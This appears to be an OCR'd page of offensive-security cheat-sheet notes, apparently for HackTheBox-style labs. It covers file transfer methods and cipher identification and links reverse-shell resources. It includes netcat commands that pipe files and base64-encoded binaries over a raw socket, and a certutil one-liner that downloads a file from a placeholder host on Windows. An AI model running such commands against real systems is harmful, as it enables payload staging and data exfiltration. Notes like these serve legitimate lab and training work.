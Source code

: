 Credits : Hacking Articles

Resources :

https://book.hacktricks.xyz/shells/shells/windows
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

File Transfers

Set up FTP :
Python pyftpdlib FTP Server (again don't run from TMUX):

1 apt-get install python-pyftpdlib
2 root@kali# python -m pyftpdlib -p 21

SMB : impacket-smbserver tmp .
HTTP :

python -m SimpleHTTPServer
python3 -m http.server
updog (https://github.com/sc0tfree/updog)
Linux :

curl
wget
Netcat

1 // Receiver
2 nc 192.168.0.1 4444 < file
3
4 // Sender
5 cat file | nc -nlvp 4444 // Normal file
6
7 // Base64 encoded sender
8 cat binary | base64 | nc -nlvp 4444
9

Windows :

certutil -urlcache -f http://<ip>/uri output.ext
//10.10.10.x/smb

Cryptography
HTB Machines :

HTB Obscurity
HTB Frolic - Multiple Encodings and Ciphers
Common Ciphers :

+++++ +++++ [->++ +++++ +++<] - BrainFuck (https://www.dcode.fr/brainfuck-
language)

...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ... - OOK! (https://www.dcode.fr/ook-language)
Cipher Identifier :
https://www.boxentriq.com/code-breaking/cipher-identifier
https://gchq.github.io/CyberChef/
https://www.devglan.com/online-tools/aes-encryption-decryption (AES)
Hash-Identifier (Kali)
hashid
